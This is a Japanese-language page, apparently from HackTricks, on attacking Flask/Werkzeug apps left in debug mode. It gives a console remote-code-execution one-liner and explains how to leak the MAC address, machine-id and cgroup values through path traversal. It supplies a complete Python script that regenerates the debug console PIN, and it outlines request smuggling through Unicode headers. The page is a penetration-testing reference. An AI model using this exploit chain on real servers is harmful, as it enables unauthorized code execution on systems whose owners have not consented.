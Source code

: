 # Werkzeug / Flask デバッグ

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**脆弱性評価とペネトレーションテストのための即時利用可能なセットアップ**。20以上のツールと機能を使用して、どこからでも完全なペンテストを実行できます。リコンからレポーティングまでの機能を提供します。私たちはペンテスターを置き換えるのではなく、彼らがより深く掘り下げ、シェルをポップし、楽しむための時間を取り戻すためにカスタムツール、検出およびエクスプロイトモジュールを開発します。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## コンソール RCE

デバッグがアクティブな場合、`/console`にアクセスしてRCEを取得することを試みることができます。
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

インターネット上には、[これ](https://github.com/its-arun/Werkzeug-Debug-RCE)やmetasploitのものなど、いくつかのエクスプロイトがあります。

## ピン保護 - パス・トラバーサル

場合によっては、**`/console`** エンドポイントがピンで保護されることがあります。**ファイルトラバーサルの脆弱性**がある場合、そのピンを生成するために必要な情報をすべて漏洩させることができます。

### Werkzeug コンソール PIN エクスプロイト

アプリでデバッグエラーページを強制的に表示させて、これを確認します:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
A message regarding the "console locked" scenario is encountered when attempting to access Werkzeug's debug interface, indicating a requirement for a PIN to unlock the console. The suggestion is made to exploit the console PIN by analyzing the PIN generation algorithm in Werkzeug’s debug initialization file (`__init__.py`). The PIN generation mechanism can be studied from the [**Werkzeug source code repository**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py), though it is advised to procure the actual server code via a file traversal vulnerability due to potential version discrepancies.

コンソールPINを悪用するには、2つの変数セット、`probably_public_bits` と `private_bits` が必要です：

#### **`probably_public_bits`**

* **`username`**: Flaskセッションを開始したユーザーを指します。
* **`modname`**: 通常は `flask.app` と指定されます。
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: 一般的に **Flask** に解決されます。
* **`getattr(mod, '__file__', None)`**: Flaskディレクトリ内の `app.py` へのフルパスを表します（例： `/usr/local/lib/python3.5/dist-packages/flask/app.py`）。`app.py` が適用できない場合は、**`app.pyc` を試してください**。

#### **`private_bits`**

* **`uuid.getnode()`**: 現在のマシンのMACアドレスを取得し、`str(uuid.getnode())` がそれを10進数形式に変換します。
* **サーバーのMACアドレスを特定するには**、アプリで使用されているアクティブなネットワークインターフェース（例： `ens3`）を特定する必要があります。不明な場合は、**`/proc/net/arp` を漏洩させてデバイスIDを見つけ、次に **`/sys/class/net/<device id>/address`** からMACアドレスを抽出します。
* 16進数のMACアドレスを10進数に変換する方法は以下の通りです：

```python
# 例のMACアドレス: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` または `/proc/sys/kernel/random/boot_id` からのデータを、最後のスラッシュ（`/`）の後の `/proc/self/cgroup` の最初の行と連結します。

<details>

<summary>Code for `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

必要なデータをすべて収集した後、エクスプロイトスクリプトを実行してWerkzeugコンソールPINを生成できます。

必要なデータをすべて収集した後、エクスプロイトスクリプトを実行してWerkzeugコンソールPINを生成できます。スクリプトは、組み立てられた`probably_public_bits`と`private_bits`を使用してハッシュを作成し、その後さらに処理を行って最終的なPINを生成します。以下は、このプロセスを実行するためのPythonコードです：
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
このスクリプトは、連結されたビットをハッシュ化し、特定のソルト（`cookiesalt` と `pinsalt`）を追加し、出力をフォーマットすることでPINを生成します。`probably_public_bits` と `private_bits` の実際の値は、生成されたPINがWerkzeugコンソールで期待されるものと一致するように、ターゲットシステムから正確に取得する必要があることに注意することが重要です。

{% hint style="success" %}
古いバージョンのWerkzeugを使用している場合は、ハッシュアルゴリズムをsha1の代わりに**md5に変更**してみてください。
{% endhint %}

## Werkzeug Unicode文字

[**この問題**](https://github.com/pallets/werkzeug/issues/2833)で観察されたように、WerkzeugはヘッダーにUnicode文字が含まれるリクエストを閉じません。そして、[**この解説**](https://mizu.re/post/twisty-python)で説明されているように、これによりCL.0リクエストスムージングの脆弱性が発生する可能性があります。

これは、Werkzeugではいくつかの**Unicode**文字を送信することが可能であり、それがサーバーを**壊す**ことになるからです。しかし、HTTP接続が**`Connection: keep-alive`**ヘッダーで作成された場合、リクエストのボディは読み取られず、接続はまだオープンのままになるため、リクエストの**ボディ**は**次のHTTPリクエスト**として扱われます。

## 自動化された悪用

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## 参考文献

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**脆弱性評価とペネトレーションテストのための即時利用可能なセットアップ**。20以上のツールと機能を使用して、どこからでも完全なペンテストを実行できます。私たちはペンテスターを置き換えるのではなく、彼らに深く掘り下げ、シェルをポップし、楽しむための時間を取り戻すためにカスタムツール、検出および悪用モジュールを開発します。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter**で**フォロー**してください 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
